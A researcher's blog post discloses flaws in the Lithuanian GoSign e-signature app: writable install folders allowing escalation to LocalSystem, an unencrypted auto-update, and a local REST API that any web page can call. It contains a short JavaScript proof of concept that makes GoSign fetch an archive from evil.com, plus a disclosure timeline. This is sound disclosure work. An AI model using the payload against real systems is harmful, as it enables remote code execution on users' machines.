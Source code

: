 ```yaml
---
layout:     post
title:      "Registrų centras GoSign app vulnerabilities"
date:       2020-12-30 08:00:00
categories: HackAndTell
cover:      gosign_js.png
permalink:  /en/blog/registru-centras-gosign-vulnerabilities
---
```

After reading [an article](https://sec-consult.com/blog/detail/deanonymization-of-lithuanian-e-signature-users/) about a remediated information disclosure vulnerability in [GoSign](https://www.elektroninis.lt/paruosti-kompiuteri/nid-1287) - an e-signature desktop application by the State Enterprise Centre of Registers of Lithuania (Registrų centras), I became curious whether it is vulnerable to the other attack - DNS rebinding. In this blog post I'll review what I've found and what was fixed.

[GoSign](https://www.elektroninis.lt/bylos/elektroninis_lt/Diegliai/GoSignCore.msi) installs two Windows services: GoSign and GoSignMonitor (installed by default) and GoSignUI tray application (optional feature, not installed by default). Both services start on bootup and run with highest privileges possible - LocalSystem. It doesn't matter if the user has the identity card inserted or not.

[![Services](gosign_sc.png "Services")](gosign_sc.png)

However, the GoSign installer erroneously grants all local users full permissions to `c:\Program Files (x86)\RCSC\GoSign` folder:

[![Gosign folder permissions](gosign_acl.png "Gosign folder permissions")](gosign_acl.png)

This allows regular users to modify the `GoSign.exe` and `GoSignMonitor.exe` (or any dll they load). Since the executables run as LocalSystem it allows for Local Elevation of Privileges (EoP). Even though the issue may be dismissed by private users, in government institutions, where computers are usually managed by technicians and regular users have restricted permissions, this is a valuable vulnerability for EoP by malicious programs.

Instead of fixing the installer to set the correct permissions to the root folder it was attempted to fix the issue in the version 3.3.4.0 by making GoSign service to verify and fix the permissions at runtime:

[![Gosign runtime ACL fix](gosign_acl_fix.png "Gosign runtime ACL fix")](gosign_acl_fix.png)

Firstly, it doesn't work at all, because GoSign attempts to remove an inherited permission. Also it says a lot about internal development and testing processes. Secondly, attempting to make such privileged operations at runtime doesn't make it easier to change the existing GoSign architecture to stop running its services as LocalSystem. All in all, the EoP is still not fixed.

GoSignMonitor is a helper service that calls [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/Version.txt) and if a new version is available the service downloads [http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip](http://downloads.registrucentras.lt/bylos/dokumentai/rcsc/gosigncore/GoSignCore.zip) and extracts the zip into the installation directory. Yes, over unencrypted connection as LocalSystem. And it does it every 10 minutes. While less likely in case of an office user, in a private user case it opens the computer to a Remote Code Execution (RCE) for an attacker capable of intercepting the unencrypted traffic like in public WIFI network. The GoSign service is stopped before the zip extraction and restarted afterwards. Since the attacker-controlled executable is started as LocalSystem it means a complete computer takeover.

It was attempted to address the issue. The newer version of GoSignMonitor checks for updates and downloads them over HTTPS. Still, because of a mistake the automatic update process extracts the new version of the executable into the wrong folder: `C:\Program Files (x86)\RCSC\GoSign\GoSignMonitor\GoSignMonitor\GoSignMonitor.exe`. This way the existing users of GoSign are left vulnerable and need to manually uninstall the old version and install the version 3.3.4.0 themselves.

Overall, the automatic update architecture of GoSign is overengineered and convoluted. Each service kills and updates the other one. Instead of downloading and starting the new version of GoSign installer the services download specific zip files that contain a selected set of executable files (i.e. without all .NET Core framework dlls they depend on) and overwrite the old files with the extracted ones. The failure to use the standard installer for this task leads to creation of GoSignUI folder with some files in it even if the feature wasn't installed to begin with. Also the fact the update is done silently without an acknowledgment means that by breaking into `downloads.registrucentras.lt` ten minutes later attackers could effectively compromise all computers with GoSign installed.

GoSign is the other installed service that runs a local web server on TCP ports 8000 and 60000. The server exposes the following REST API:

```
GET  /nexu-info
POST /rest/certificates
GET  /rest/certificates
POST /rest/sign 
POST /rest/loadApp
GET  /diagnostics
POST /certs
GET  /certs
POST /multisign
POST /ping
GET  /rest/ping
```

Before version 3.2.2.0 a malicious JavaScript on any web page could call the local server and read its response. In v3.2.2.0 to mitigate the issue the following Cross-Origin Resource Sharing (CORS) list is hardcoded into the service:

```
https://ws.gosign.lt
https://wstest.gosign.lt
https://www.elektroninis.lt
https://test.elektroninis.lt
https://dev.elektroninis.lt
https://mati.registrucentras.lt
https://apptest4.kada.lt
https://appdevel4.kada.lan
```

The common misconception about CORS is that it allows requests to the server only from the selected list. What it really does, it instructs the browser to allow a web page from a selected origin to _**read**_ the server response. Any web page is still able to issue a [simple request](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#Simple_requests) to the web server. The CORS list fixed the issue where malicious pages could read personal information from the inserted identity card. Still, in v3.2.2.0 it was possible to blindly call any of the API.

The `/rest/loadApp` API commands GoSignUI to automatically download a file from the specified `url`, extract it if it is an archive and open in AutoDesk TrueView 2018 or AutoDesk DesignReview 2018 viewer. Proof of Concept:

```html
<script>
  fetch("https://localhost:8000/rest/loadApp", {
    method: 'POST',
    body: 'url=https://evil.com/evil.zip'
  })
</script>
```

An attacker could:

* Force GoSign users to download a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb).  
* Achieve RCE by using a specially crafted DWG or DWF file. It is as simple to exploit one of the [known vulnerabilities in AutoDesk DesignReview 2018](https://www.cvedetails.com/vulnerability-list/vendor_id-3855/product_id-15106/year-2019/opec-1/Autodesk-Design-Review.html) as zipping malicious DWF and DLL files into the same archive. Since GoSignUI runs as a non-privileged process that should reduce the RCE impact. Nevertheless, because of the improper installation folder permissions it is easy to escalate to LocalSystem.  

My recommendation was to implement a `Origin` header check on the server side, but in the version 3.3.4.0 `/rest/loadApp` verifies `Referer` header instead. This is not ideal since the header may be not present, but it should be OK as long as the server rejects requests without `Referer`. Both `Referer` and `Origin` are [forbidden headers](https://developer.cdn.mozilla.net/en-US/docs/Glossary/Forbidden_header_name), i.e. are guaranteed to be not spoofable by malicious sites. However, the check wasn't implemented as .NET Core Middleware, so it is still possible for any web site to call the other API endpoints.

### Timeline

2020.09.25-29 - Contacted [info@gosign.lt](mailto:info@gosign.lt), [info@elektroninis.lt](mailto:info@elektroninis.lt), [info@registrucentras.lt](mailto:info@registrucentras.lt) asking for the security contact.  
2020.10.01 - A report was sent to [pagalba@elektroninis.lt](mailto:pagalba@elektroninis.lt).  
2020.10.01 - The report was acknowledged.  
2020.12.21 - Received an email that v3.3.4.0 with the fixes was released.  
2020.12.28 - Vendor was notified about the not fixed issues.  
2020.12.30 - Disclosure deadline reached.  
